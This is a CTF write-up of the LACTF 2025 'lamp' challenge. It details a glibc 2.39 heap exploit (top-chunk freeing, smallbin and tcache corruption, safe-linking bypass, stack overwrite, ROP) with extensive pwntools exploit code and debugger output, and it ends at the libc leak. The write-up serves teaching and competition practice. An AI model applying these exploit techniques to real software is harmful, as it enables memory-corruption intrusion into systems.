


# CTF Writeup: *lamp* (LACTF 2025)

By Jonathan Keller ([OSUSEC](https://osusec.org/))

Challenge author: enzocut

> i love lamp

---

`lamp` is a minimal binary with a heap buffer overflow, on a modern version of glibc (2.39):

```c
#include <stdlib.h>
#include <unistd.h>

void gets(char *p) {
	char c;
	for(;;) {
		c = *p;
		read(0, p, 1);
		if(*p == '\n') {
			*p = c;
			break;
		}
		p++;
	}
}

int main() {
	char *leek = malloc(0x18);
	free(leek);
	write(1, leek, 8);
	char buf[3] = {};
	for(;;) {
		write(1, ">", 1);
		read(0, buf, 2);
		gets(malloc(strtol(buf, 0, 0x10)));
	}
}
```

There's not a lot to work with here. We can make as many `malloc` calls as we want (as long as the size is between 0x00-0xFF); and we can write an arbitrary number of bytes into the address returned by the most recent `malloc` call. The program writes 8 bytes from freed memory on startup, which leaks the base address of the heap (more on *why* later); but other than that, the program produces no useful output.

The program is compiled without stack smashing protection, but that's about the only nice thing:

```
> > checksec --file=lamp
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	    Symbols	    FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   RW-RUNPATH   41 Symbols	 No	    0		    2	        lamp
```

There's also a mysterious `run` binary that seems to invoke `lamp`; it's a weird minified/obfuscated ELF file and 

Let's look at the layout of the heap to see what we're working with:

```
$ gdb ./lamp
[...]
pwndbg> run
[...]
YUUU>20abcd
>40defg
>60ijkl
>^C
[...]
pwndbg> hexdump heap 0x23000
+0000 0x555555559000  00 00 00 00 00 00 00 00  91 02 00 00 00 00 00 00  │........│........│
+0010 0x555555559010  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+0020 0x555555559020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 5 identical lines (80 bytes)
+0080 0x555555559080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+0090 0x555555559090  a0 92 55 55 55 55 00 00  00 00 00 00 00 00 00 00  │..UUUU..│........│
+00a0 0x5555555590a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 29 identical lines (464 bytes)
+0280 0x555555559280  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+0290 0x555555559290  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  │........│!.......│
+02a0 0x5555555592a0  59 55 55 55 05 00 00 00  64 d7 50 ee bd a8 f1 74  │YUUU....│d.P....t│
+02b0 0x5555555592b0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00  │........│1.......│
+02c0 0x5555555592c0  61 62 63 64 00 00 00 00  00 00 00 00 00 00 00 00  │abcd....│........│
+02d0 0x5555555592d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+02e0 0x5555555592e0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  │........│Q.......│
+02f0 0x5555555592f0  64 65 66 67 00 00 00 00  00 00 00 00 00 00 00 00  │defg....│........│
+0300 0x555555559300  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 1 identical lines (16 bytes)
+0320 0x555555559320  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+0330 0x555555559330  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  │........│q.......│
+0340 0x555555559340  69 6a 6b 6c 00 00 00 00  00 00 00 00 00 00 00 00  │ijkl....│........│
+0350 0x555555559350  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 3 identical lines (48 bytes)
+0390 0x555555559390  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
+03a0 0x5555555593a0  00 00 00 00 00 00 00 00  61 0c 02 00 00 00 00 00  │........│a.......│
+03b0 0x5555555593b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 8387 identical lines (134192 bytes)
+20ff0 0x555555579ff0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
```

It looks like malloc is placing all of our allocations in order in memory, which makes sense as we're not freeing anything.

From this hexdump we can observe a few important details about metadata on the heap, as well. The 8 bytes preceding each allocation seem to serve as a header indicating the size of the allocation, plus some flags. (Note that malloc internally considers this header to be part of the allocation size; thus `malloc(0x18)` creates a 0x20-byte allocation as far as malloc is concerned).

We see the freed allocation from the beginning of the program's execution, as well as our 0x20-, 0x40-, and 0x60-byte allocations (which, after adding an 8-byte header and rounding up to a multiple of 16 bytes, become 0x30-, 0x50-, and 0x70-byte allocations internally).

We also see a mysterious 0x290-byte allocation at the beginning of the heap, and a 0x20c61-byte allocation at the end of the heap. That last allocation is called the "top" of the heap and represents free space that is mapped but has never been allocated; each call to malloc "splits" the top. Once the top is exhausted, malloc calls `sbrk` to increase the size of the heap.

The 0x290-byte allocation at the beginning of the heap is called the tcache -- it's a per-thread freelist for common allocation sizes. The tcache is made up of 128 bins; each stores a count and a pointer to the head of the list. The bin of size 0x20 has a count of 1 and the pointer `0x5555555592a0`, pointing into the block that was freed at the beginning of `main`. Since that block is free, its data section stores...something:

```
+02a0 0x5555555592a0  59 55 55 55 05 00 00 00  64 d7 50 ee bd a8 f1 74  │YUUU....│d.P....t│
```

This is a struct of type [`tcache_entry`](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3104):

```c
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  uintptr_t key;
} tcache_entry;
```

The next pointer is [obfuscated for exploit mitigation](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L320):

```c
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

pwndbg also has some helpful commands for visualizing the contents of the heap; I made frequent use of the `bins` command:

```
pwndbg> bins
tcachebins
0x20 [  1]: 0x5555555592a0 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
empty
largebins
empty
```

In this case, this is the only allocation in the freelist, so the next pointer is null, and the use-after-free in main leaks the pointer obfuscation key / the base address of the heap.

But what does this information get us? There's *nothing* on the heap except what we put there, and we don't have a way to free memory. We can't corrupt the tcache, as the tcache and the one allocation it contains are both located before anything we have write access too.

## Freeing Without Free

As mentioned above, when malloc runs out of heap space, it maps more memory to extend the heap. But if the newly-mapped memory is noncontiguous with the previous top of the heap, then the allocation representing the old top of the heap is freed. We can use our buffer overflow to overwrite the size of the top allocation to be smaller than it actually is; if we then ask for an allocation bigger than the newly-shrunken top allocation, malloc will grow the heap, see that the newly mapped pages are now noncontiguous with the top allocation, and free the old top allocation:

```
+-------------------+
|                   |
|  used heap space  |
|                   |
+-------------------+
|    size of top    +
+-------------------+ <----- top pointer
|                   |
|    unallocated    |
|       space       |
|                   |
| - - - - - - - - - | <------ our fake end of the heap 
|                   |    (we corrupt top size to point here)
|                   |
|                   |
|                   |
+-------------------+ <----- actual end of the heap
|                   |   
|      freshly      |   if we ask for an allocation too big to fit in top,
|      mappped      |   top is moved here and the unallocated space between
|       pages       |   top and the fake end-of-heap is free()'d
|                   |

```

This is the basis for the [House of Orange](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-orange) attack. Pulling it off is somewhat tricky mainly because of [an assert](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L2599) that expects the end of the top to be page aligned, and because we'll want to control the size of the freed' allocation:

```python
def free(size):
    assert(size & 0xF == 0)
    nonlocal top, heap_base, heap_size
    p.send(b"b8")
    p.send(b"a" * 0xb0)
    p.send(b"bbbbbbbb")

    top += 0xc0

    # Page-align top
    p.send(p64((0x1000 - (top & 0xFFF) | 1)))
    p.send(b"\n")

    while (top & 0xFFF < 0xE00):
        p.send(b"f0\n")
        top += 0x100

    while (top & 0xFFF < 0xF00 - size):
        p.send(b"30\n")
        top += 0x40

    # Leave just enough space for a chunk of size 'size'
    alloc_size = 0x1000 - (top & 0xFFF) - size - 0x28
    p.send(("%02X" % alloc_size).encode('utf-8'))
    p.send(b"\n")
    top += alloc_size

    # Now allocate a chunk that's too big
    p.send(b"f0\n")
    top = heap_base + heap_size + 0x100
    heap_size += 0x22000
    print(hex(top), hex(heap_size))
```

On its own, being able to free doesn't give us any new abilities. However, it lets us make the heap data structures more interesting.

Since we're dealing with small allocations, we mainly care about the tcache and smallbins. When an allocation is freed, if the appropriate tcache bin has less than 7 entries, it's pushed onto the head of the tcache; otherwise, it goes in the fastbins. Since we can break the pointer protection on the tcache, we can fairly easily create an arbitrary write gadget by overflowing into the `next` pointer of a free'd chunk. However, we don't have the addresses of anything except the heap, so this won't do us much good yet.

# Overwriting the Stack Without a Leak

Currently, the heap contains no pointers to anything except other heap locations. It would be nice to change that, and it turns out we can: while a tcachebin is a singly-linked list, the smallbins are a circular doubly-linked-list with a head pointer located inside of libc. Thus, if we free enough allocations of all the same size, the heap will contain a libc pointer somewhere.

We can then corrupt the bottom bytes of this libc pointer to point somewhere else within libc, and corrupt another smallbin somewhere to point into the corrupted bin. Then, if malloc attempts to allocate the corrupted bin, it will read and return a pointer from out of libc!

In previous versions of libc, the easiest thing to do here would probably be to overwrite `malloc_hook`, or to construct a fake I/O object with a flush callback and then trigger an abort. However, both of these features have been removed in modern versions of glibc. So instead, we cause our fake bin to point at `__libc_argv`, so that malloc will try to "allocate" a stack address, letting us corrupt the stack.

The tricky bit is managing the layout of the smallbins. malloc does not allocate items from the smallbins one at a time; rather, when an allocation misses the tcache, malloc retrieves multiple items from the smallbins to repopulate the tcache. This quite difficult to deal with, because sending malloc on a wild pointer chase through your stack is a great way to cause a crash. I had to make sure there were enough smallbins in the list prior to my corrupt bin such that malloc would finish filling the tcache and stop looking at smallbins immediately after finding the corrupt one.

Getting this to not crash also required some specific setup in argv and environ, since malloc expects to find dereferenceable pointers at various offsets within a smallbin. At this point, I looked closer into the mysterious `./run` binary, and at the odd values it places in argv and environ -- exactly the right layout to make sure the stack has enough valid pointers for this to technique work. At about 12 hours in, I was thankful for the reassurance sign that I was on the right track.



```python
# We want to transfer a useful stack address into the tcache.
# In order to do this, we'll create a fake pile of smallbins, and then allocate one of them
# causing the rest to be transferred into the tcache until it's full.
# We then have a valid stack address in the tcache, and we can corrupt the bottom bits of it

fake_bins = heap_base + 0xcbf90
target_bin = heap_base + 0xedf78
start_bin = heap_base + 0x1dbf90

start_overwrite_from = heap_base + 0x1b9fb0

print("fake", hex(fake_bins))
print("target", hex(target_bin))
print("start", hex(start_bin))

p.send(b"58")
BINS = 0
for i in range(BINS):
    # This ended up being unused, it was here to help control the length
    # of the list of smallbins leading to the bin we wanted to overwrite
    p.send(p64(fake_bins + (i+1)*0x20)) # dummy
    p.send(p64(fake_bins + (i+1)*0x20)) # dummy
    p.send(p64(fake_bins + (i+1)*0x20)) # fd
    p.send(p64(fake_bins + (i+1)*0x20)) # bk

p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
p.send(b"\x00" * 16)
p.send(b"\xc8\x46\n")

p.send(b"30")
p.send(b"Y" * (start_bin - start_overwrite_from))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(b"\n")

# Pop the tcache entries.
for i in range(7):
    p.send(b"58\n")

# Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
p.send(b"58\n")
```

The situation looks something like this:

```
        +--------+
        | tcache |
        |        |
  /-----|0x40    |
  |     |        |
  |  /--|0x60    |
  |  |  |        |
  |  |  |        |
  |  |  +--------+
  |  |
  |  |
  |  |
  |  |
  |  |
  |  |              
  |  |  +---------+ 
  |  |  |     next|->NULL
  |  |  +---------+
  |  |           ^  
  |  |  +---------+ 
  |  |  |     next| 
  |  |  +---------+
  |  |           ^  
  |  |      ...
  |  |           ^  
  |  |  +---------+ 
  |  |  |     next| 
  |  |  +---------+
  |  |           ^  
  |  |  +---------+ 
  |  \->|     next|     <----- fake_bins
  |     +XXXXXXXXX+
  |      XXXXXXXXX
  |      XXXXXXXXX (buffer overflow to smash bottom bytes
  |      XXXXXXXXX        of libc ptr in target_bin->next)
  |      XXXXXXXXX
  |     +XXXXXXXXX+     <------ target_bin
  |     |     next|<>libc
  |     |     prev| 
  |     +---------+
  |             ^v
  |     +---------+ 
  |     |     next| 
  |     |     prev| 
  |     +---------+
  |             ^v
  |     +---------+ 
  |     |     next| 
  |     |     prev|<----------------------------------->\
  |     +---------+                                     |
  |                                                     |
  |                                                     |
  |     +---------+                                     |
  |     |     next|->NULL                               |
  |     +---------+                                     |
  |              ^                                      |
  |     +---------+                                     |
  |     |     next|                                     |
  |     +---------+                                     |
  |              ^                                      |
  |     +---------+                                     |
  \---->|     next|     <----- start_overwrite_from     |
        +YYYYYYYYY+                                     |
         YYYYYYYYY (buffer overflow to hijack next ptr  |
         YYYYYYYYY                      of start_bin)   |
        +YYYYYYYYY+                                     |
        |     next|<----------------------------------->/
        |     prev| 
        +---------+
                ^v
        +---------+ 
        |     next| 
        |     prev| 
        +---------+
                ^v
        +---------+ 
        |     next| 
        |     prev|<>libc
        +---------+

```

After all this, we finally end up with a stack pointer in the tcache:

```
pwndbg> bins
tcachebins
0x20 [  1]: 0x55555555a2a0 ◂— 0
0x40 [  2]: 0x5555556f1fb0 —▸ 0x5555556cffb0 ◂— 0
0x60 [  7]: 0x7fffffffee08 —▸ 0x1555554046d8 —▸ 0x555555647f88 —▸ 0x555555735f90 —▸ 0x5555556adf90 —▸ 0x55555568bf90 —▸ 0x555555669f90 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x555555757f80 —▸ 0x555555735f80 ◂— 0x5550003f88a5
BK: 0x7fffffffefc3 ◂— 'ode/ctf/la/lamp/lamp_patched'
largebins
empty
```

But we have still some problems:

- Even though we can write to the stack, we don't know the address of the program binary or libc, so we can't write anything *useful*. We need to somehow create a leak by corrupting the stack.
- We only have one stack address in the tcache, and we will need to be able to write to the stack multiple times (at minimum: once to somehow a leak and again to exploit it)
- The address in the tcache points to the program arguments/environment, which is well beyond the bottom of the stack.

Let's start by addressing the second one.

## Tcache Duplication

Remember I mentioned before that we can gain an arbitrary write primitive by corrupting tcache entries? Let's do that now.

```python3
tcache_20_dst_addr = heap_base + 0x2a0
tcache_40_dst_addr = heap_base + 0x197fb0
tcache_overwrite_addr = heap_base

p.send(b"18")
p.send(b"T" * (tcache_40_dst_addr - tcache_20_dst_addr))
p.send(p64(protect(tcache_40_dst_addr, tcache_overwrite_addr)))
p.send(b"\n")
```

```
        +--------+<----------------------------\
        | tcache |                             |
        |        |                             |
     /--|0x20    |                             |
     |  |        |                             |
  /-----|0x40    |                             |
  |  |  |        |                             |
  |  |  |        |                             |
  |  |  +--------+                             |
  |  |                                         |
  |  |  +--------+                             |
  |  \->|    next|->NULL                       |
  |     +TTTTTTTT+                             |
  |      TTTTTTTT  buffer overflow to replace  |
  |      TTTTTTTT   tcache[40]->next with: ----/
  |     +TTTTTTTT+
  \---->|    next|
        +--------+
```

Now if we malloc(0x38), we can write arbitrary contents to the tcache. First, we overwrite the counts with big numbers so malloc never thinks the tcache is empty:

```python
# pad to start of counts
p.send(b"T" * 0x10)

# write some nice big counts
p.send(b"\x42" * 0x80)
```

`tcache[0x60]` has our pointer into the stack. We fill `tcache[0x20]` and we fill `tcache[0x40]` with pointers to `tcache[0x80]` (we ignore odd-numbered elements to avoid corrupting things we care about when malloc writes the `key` field):

```python
p.send(p64(tcache_80_addr))
p.send(p64(0))

p.send(p64(tcache_80_addr))
p.send(p64(0))
```

```
      +--------------+
      | tcache[0x20] |-------------\
      +--------------+             |
      | tcache[0x30] |             |
      +--------------+             |
      | tcache[0x40] |----------\  |
      +--------------+          |  |
      | tcache[0x50] |          |  |
      +--------------+          |  |
      | tcache[0x60] |-->STACK  |  |
      +--------------+          |  |
      | tcache[0x70] |          |  |
      +--------------+          |  |
      | tcache[0x80] |<---------+--/
      +--------------+
```

We also overwrite the bottom bits of `tcache[0x40]` so that it points to an address that is hopefully higher up on the stack:

```python
p.send(b"\x00\xe0\n")
```

Then, we malloc `tcache[0x40]`, giving us a pointer to `tcache[0x80]` and letting us continue writing tcache entires without clobbering the entire stack address. Write a pointer to `tcache[0x60]` into `tcache[0x80]`

```python
p.send(b"38")
p.send(p64(tcache_60_addr))
p.send(p64(0))
```

```
      +--------------+
      | tcache[0x20] |-------------\
      +--------------+             |
      | tcache[0x30] |             |
      +--------------+             |
      | tcache[0x40] |             |
      +--------------+             |
      | tcache[0x50] |             |
      +--------------+             |
  /-->| tcache[0x60] |-->STACK     |
  |   +--------------+             |
  |   | tcache[0x70] |             |
  |   +--------------+             |
  \---| tcache[0x80] |<------------/
      +--------------+
```

At this point, it might seem like we can successfully duplicate `tcache[0x60]` by malloc()'ing `tcache[0x80]`. This should return the pointer to `tcache[0x60]`, and pop it off the tcache, leaving `tcache[0x80]->next == tcache[0x60]` in `tcache[0x80]`:

```
      +--------------+              
      | tcache[0x60] |-->STACK      
      +--------------+              
      | tcache[0x70] |              
      +--------------+              
      | tcache[0x80] |-->STACK
      +--------------+
```
But, we're defeated by the pointer-scrambling scheme. malloc expects to read a scrambled pointer from `tcache[0x80]->next`, but the tcache heads are just regular pointers. When it tries to desecramble the stack pointer, we get garbage:

```
      +--------------+              
      | tcache[0x60] |-->STACK      
      +--------------+              
      | tcache[0x70] |              
      +--------------+              
      | tcache[0x80] |-->REVEAL_PTR(&tcache[0x80], STACK)
      +--------------+
```

Fortunately, pointer scrambling is its own inverse -- we can de-descramble the stack pointer by attempting to copy it a second time. So we set up a bunch of tcache entries pointing at `tcache[0x80]`

```python
p.send(b"38")
# write 80/a0/c0
p.send(p64(tcache_60_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(b"\n")
```

```
      +--------------+
      | tcache[0x20] |>---------/
      +--------------+          |
      | tcache[0x30] |          |
      +--------------+          |
      | tcache[0x40] |          |
      +--------------+          |
      | tcache[0x50] |          |
      +--------------+          |
  /-->| tcache[0x60] |-->STACK  |
  |   +--------------+          |
  |   | tcache[0x70] |          |
  |   +--------------+          v
  \---| tcache[0x80] |<---------+
      +--------------+          ^
      | tcache[0x90] |          |
      +--------------+          |
      | tcache[0xa0] |>---------^
      +--------------+          |
      | tcache[0xb0] |          |
      +--------------+          |
      | tcache[0xc0] |>---------^
      +--------------+          |
      | tcache[0xd0] |          |
      +--------------+          |
      | tcache[0xe0] |>---------^
      +--------------+          |
      | tcache[0xf0] |          |
      +--------------+          |
      | tcache[0x100]|>---------/
      +--------------+
```

We malloc `tcache[0x80]`, causing it to contain a scrambled stack pointer:

```python
p.send(b"78\n")
```

```
      +--------------+
      | tcache[0x20] |>----------------------/
      +--------------+                       |
      | tcache[0x30] |                       |
      +--------------+                       |
      | tcache[0x40] |                       |
      +--------------+                       |
      | tcache[0x50] |                       |
      +--------------+                       |
      | tcache[0x60] |-->STACK               |
      +--------------+                       |
      | tcache[0x70] |                       v
      +--------------+<----------------------<
      | tcache[0x80] |-->SCRAMBLED STACK     ^
      +--------------+                       |
      | tcache[0x90] |                       |
      +--------------+                       |
      | tcache[0xa0] |>----------------------^
      +--------------+                       |
      | tcache[0xb0] |                       |
      +--------------+                       |
      | tcache[0xc0] |>----------------------^
      +--------------+                       |
      | tcache[0xd0] |                       |
      +--------------+                       |
      | tcache[0xe0] |>----------------------^
      +--------------+                       |
      | tcache[0xf0] |                       |
      +--------------+                       |
      | tcache[0x100]|>----------------------/
      +--------------+
```

Then, we malloc all our tcache entries that are pointing at `tcache[80]`:

```
      +--------------+
      | tcache[0x20] |-->STACK
      +--------------+
      | tcache[0x30] |
      +--------------+
      | tcache[0x40] |
      +--------------+
      | tcache[0x50] |
      +--------------+
      | tcache[0x60] |-->STACK
      +--------------+
      | tcache[0x70] |
      +--------------+
      | tcache[0x80] |-->SCRAMBLED STACK
      +--------------+
      | tcache[0x90] |
      +--------------+
      | tcache[0xa0] |-->STACK
      +--------------+
      | tcache[0xb0] |
      +--------------+
      | tcache[0xc0] |-->STACK
      +--------------+
      | tcache[0xd0] |
      +--------------+
      | tcache[0xe0] |-->STACK
      +--------------+
      | tcache[0xf0] |
      +--------------+
      | tcache[0x100]|-->STACK
      +--------------+

pwndbg> bins
tcachebins
0x20 [16961]: 0x7fffffffe000 ◂— 0x7fffffcbe
0x30 [16962]: 0
0x40 [16961]: 0x55555555a
0x50 [16962]: 0
0x60 [16962]: 0x7fffffffe000 ◂— 0x7fffffcbe
0x70 [16962]: 0
0x80 [16961]: 0x7ffaaaaab55a
0x90 [16962]: 0
0xa0 [16961]: 0x7fffffffe000 ◂— 0x7fffffcbe
0xb0 [16962]: 0
0xc0 [16961]: 0x7fffffffe000 ◂— 0x7fffffcbe
0xd0 [16962]: 0
0xe0 [16961]: 0x7fffffffe000 ◂— 0x7fffffcbe
0xf0 [16962]: 0
0x100 [16961]: 0x7fffffffe000 ◂— 0x7fffffcbe
```

Now we can write to the stack a bunch of times! Assuming the `e0000` base address we guessed is correct and points somewhere in the stack, that is...

## Taking Control

We know have the ability to write to some address that has a good chance of being somewhere in the stack, but we don't know where. We also don't know the addresses of any code, so there's not a lot we can do.

Fortunately, there's a way to leak our offset within the stack *and* the binary base address at the same time. Assuming the pointer we have is somewhere above the active area of the stack, we can continue writing to that pointer one byte at a time. The writes will have no effect until we hit the low byte of the return address of the `read` call. This return address is normally at offset `0x114d` in the binary; but if we repeatedly write the byte `0x1f`, then `read` will return to the `write()` call at the beginning of `main()`. This gadget writes 8 bytes starting at the address contained within `rbx` -- and `rbx` points to a code pointer!



```python
offset = 0x8
p.send(b"\x00" * offset + b'\x00')

# wait for buffers to flush
while p.recv(timeout=1):
    pass

while True:
    offset += 16
    print(hex(offset))
    p.send(b"\x1f" * 16)
    if p.recvuntil(b'1', timeout=0.5 if args.REMOTE else 0.01) != b'':
        break

bin_base = u64(b'1' + p.recv(7)) - 0x1131
print("bin_base:", hex(bin_base))
```

Now that we have code pointers, we can construct a ROP chain by using two more one of our pointers into the stack. We make sure to overwrite the return address of `read()` with the same value that it already has, because the program only reads one byte at a time and we don't want to return until the ROP chain is fully constructed.


```python
# Go to return address
p.send(b"b8")
p.send(b"\x00" * offset)

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, write some gadgets
```

After we write our ROP chain, we can malloc another stack pointer and use it to overwrite the low byte of the `read()` return address with a ret gadget and enter our ROP chain. There's one hiccup though: the top 3 bytes of the pointer immediately after `read()`'s return address store the buffer in which the malloc size input is read, so our first ROP gadget gets clobbered. We can't replace the ret with, say a pop/ret, because our first gadget is a 1-byte overwrite and thus constrained to 256 possible bytes; and there are almost no useful gadgets in that range:

```
$ ROPgadget --binary ./lamp | grep '11.. :'
0x000000000000117f : add byte ptr [rax - 0x7d], cl ; ret
0x00000000000011f3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x00000000000011f4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000000011f6 : add byte ptr [rax], al ; ret
0x00000000000011e8 : add byte ptr [rax], al ; test rax, rax ; je 0x11f8 ; jmp rax
0x000000000000110e : add eax, 0xffffbce8 ; dec dword ptr [rax - 0x77] ; ret
0x0000000000001196 : cmp byte ptr [rbx], 0xa ; jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x0000000000001197 : cmp ecx, dword ptr [rdx] ; jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x0000000000001113 : dec dword ptr [rax - 0x77] ; ret
0x000000000000119a : in eax, 0x40 ; mov byte ptr [rbx], ch ; jmp 0x1140
0x0000000000001195 : inc dword ptr [rax - 0x1a8af5c5] ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x00000000000011ed : je 0x11f8 ; jmp rax
0x000000000000119e : jmp 0x1140
0x000000000000117b : jmp 0x1184
0x00000000000011ef : jmp rax
0x0000000000001199 : jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x000000000000119b : mov byte ptr [rbx], bpl ; jmp 0x1140
0x000000000000119c : mov byte ptr [rbx], ch ; jmp 0x1140
0x0000000000001179 : mov ebx, eax ; jmp 0x1184
0x0000000000001178 : mov rbx, rax ; jmp 0x1184
0x00000000000011f1 : nop dword ptr [rax] ; ret
0x0000000000001198 : or dh, byte ptr [rbp - 0x1b] ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x00000000000011eb : test eax, eax ; je 0x11f8 ; jmp rax
0x00000000000011ea : test rax, rax ; je 0x11f8 ; jmp rax
```

To get around this, observe that:

- The top 16 bits of any pointer are zero.
- malloc's minimum allocation size is 0x20 bytes.
- The allocation size is input in hex, so any single-character input results in an allocation size of 0x20 (a valid hex character rounds up, and strtol returns 0 for an invalid hex character)

If we ensure that the `tcache[0x20]` bin contains a valid stack pointer, then for our last write to trigger the ROP chain, we can specify an allocation size equal to the three top bytes of the gadget we want to store at the location overlapping the buffer:

```
+----------------------------+
| return address from read() |
+----------------+---------- +
| xx xx xx xx xx | ss 00 00  |
+----------------+-----------+
                 ^--- user input buffer for allocation size
```

My first attempt was to create a onegadget by partially overwriting a libc pointer located further down the stack. This worked fine locally (with a although it needed to bruteforce some of ASLR); but it succeeded in popping a shell within a few minutes of attempts on my machine. Remote is much slower; it takes 10-20 seconds to perform the attack on a remote machine vs. a fraction of a second locally, so it was several hours before I realized ASLR behavior was different: running locally, libc's base address was always aligned to 22 bits, but when I finally bothered figuring out how to attach gdb to the Docker image I found it was only aligned to one page.

So, I needed to revise my approach. I know where I can find libc pointers in the heap, so I used a `pop rbx` gadget in the binary, combined with the `write()` gadget used earlier, to leak a pointer to libc:

```python
# Go to return address
p.send(b"b8")
p.send(b"\x00" * offset)

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, write some ret gadgets
ret = bin_base + 0x11f8
for i in range(20):
    p.send(p64(ret))

libcleak = heap_base + 0x1fdf98
pop_rbx = bin_base + 0x12c2
p.send(p64(pop_rbx))
p.send(p64(libcleak))
p.send(p64(libcleak))
writegadget = bin_base + 0x111f
p.send(p64(writegadget))
p.send(b'\n')

# Go back to return address
p.send(p16((ret >> 40)))
p.send(b'\x00' * offset)
p.send(b'\xf8')

p.recvuntil(b'p')
libc_base = u64(b'p' + p.recv(7)) - 0x203b70

print("libc:", hex(libc_base))
```

